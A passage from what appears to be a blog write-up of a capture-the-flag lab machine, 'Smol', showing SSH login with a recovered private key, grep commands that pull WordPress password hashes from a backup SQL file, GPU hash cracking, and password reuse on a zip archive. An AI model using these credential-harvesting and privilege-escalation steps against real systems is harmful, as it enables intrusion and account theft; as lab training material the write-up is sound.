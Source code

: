 I copied the key to my machine and set the permissions right (`chmod 600 id_rsa`). Now we got a useable shell on the machine.
```terminal
$ ssh -i id_rsa think@10.10.52.188
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
...
Last login: Sat Jan 25 11:43:17 2025 from 10.14.78.229
think@smol:~$ 
```

### gege

Now I tried finding other passwords on the server. In the `/opt` folder there is a SQL file, which includes passwords which differ from the passwords from `mysql`.
```
think@smol:/opt$ cat wp_backup.sql | grep '\$P\$' | grep -o "'\$P\$[A-Za-z0-9./]\{31\}'" | tr -d "'"
$P$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1
$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.
$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/
$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
$P$BvcalhsCfVILp2SgttADny40mqJZCN/
```

I now tried cracking them too.
After about 10 minutes with my `RTX 3060`, I got this password:

![](/assets/blog/Smol/password2.png)

I tired it for *gege*, but wait what?
```terminal
think@smol:/opt$ su gege
gege@smol:/opt$ 
```

We didn't even need a password for *gege*.

**Note**: We need the password in the next step, so don't skip cracking it.

### xavi

I next checked the home folder and found a zip archive with old Wordpress data, this may include credentials, to extract this file we need a password, I tried the password we cracked for the user *gege* and it simply worked:
